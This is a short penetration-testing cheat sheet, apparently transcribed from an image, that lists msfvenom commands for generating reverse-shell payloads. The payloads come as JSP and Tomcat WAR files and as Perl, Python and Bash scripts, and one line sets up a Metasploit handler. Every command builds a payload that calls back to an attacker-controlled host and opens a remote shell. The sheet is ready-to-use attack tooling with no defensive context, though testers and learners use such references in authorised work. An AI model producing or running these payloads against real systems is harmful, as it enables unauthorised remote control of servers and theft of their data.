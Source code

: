 		JSP:    msfvenom -a x86 --platform windows -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=8080 -f raw; use exploit/multi/handler; set PAYLOAD java/jsp_shell_reverse_tcp
			msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
		WAR (Tomcat):  msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Attack box IP] LPORT=4444 -f war > /root/Desktop/shell.war
	Script Language:
		Perl:  msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
		Python:  msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
		Bash:  msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
					
